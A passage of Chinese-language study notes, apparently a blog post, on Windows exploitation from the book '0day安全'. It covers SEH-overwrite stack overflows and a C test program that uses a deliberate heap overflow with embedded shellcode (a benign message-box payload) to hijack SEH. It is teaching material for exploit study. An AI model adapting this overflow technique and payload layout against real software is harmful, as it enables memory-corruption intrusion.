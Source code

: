 所以需要把`0x90`的个数调整一下。最终效果如下：

![Screen Shot 2018-07-08 at 2.50.05 PM.png]({{ site.url }}/images/0day/0DB99583662025F9F5E6C276980FB14D.png)

在真实的Windows平台漏洞利用环境中，修改SEH的栈溢出和修改返回地址的栈溢出几乎同样流行。

我们依赖的还是绝对的shellcode起始地址，也许可以结合"0day安全 Chapter 3 开发shellcode的艺术"中的优化模型来做一下改进？不过SEH溢出与返回地址溢出不同的地方在于，它没有`ret`指令，所以也许`ret`劫持后跳转到`jmp esp`这种模式不太适合。

更新注：在[MasterMsf笔记](https://brant-ruan.github.io/metasploit/2018/10/21/masterMsf-chp3.html)中记录了一种更为有效的针对SEH的shellcode排布方式。

**在堆溢出中利用SEH**

利用原理是第五章的堆溢出知识加上本章开头的SEH知识。测试代码如下：

```c
#include <windows.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xB8\x20\xF0\xFD\x7F"
"\xBB\x60\x20\xF8\x77"
"\x89\x18"
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"
"\x88\x06\x36\x00"
"\x90\x90\x90\x90";

DWORD MyExceptionhandler(void)
{
	ExitProcess(1);
	return 0;
}
main()
{
	HLOCAL h1 = 0, h2 = 0;
	HANDLE hp;
	hp = HeapCreate(0,0x1000,0x10000);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	//memcpy(h1,shellcode,200); //normal cpy, used to watch the heap
	memcpy(h1,shellcode,0x200); //overflow,0x200=512
	__asm int 3 //used to break the process
	__try{
		h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	}
	__except(MyExceptionhandler()){}
	return 0;
}
```
